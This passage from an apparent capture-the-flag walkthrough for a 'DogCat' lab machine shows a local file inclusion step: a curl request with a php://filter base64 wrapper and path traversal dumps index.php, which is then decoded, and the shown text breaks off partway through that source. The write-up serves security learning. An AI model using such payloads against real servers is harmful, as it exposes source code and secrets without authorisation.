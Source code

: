 ## LFI

I tried some simple LFI (Local File Inclusion), and it seems like that php filters are working. I converted `/index.php` to a base64 string by navigating to the following.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ curl -s "http://$IP/?view=php://filter/read=convert.base64-encode/resource=./dog/../index"    
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk   [REDACTED]    ICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==    </div>
</body>

</html>
~~~

Then I decoded it and saved it in "index.php", which you can find in the files.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk    [REDACTED]    ICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d | tee ./files/index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
~~~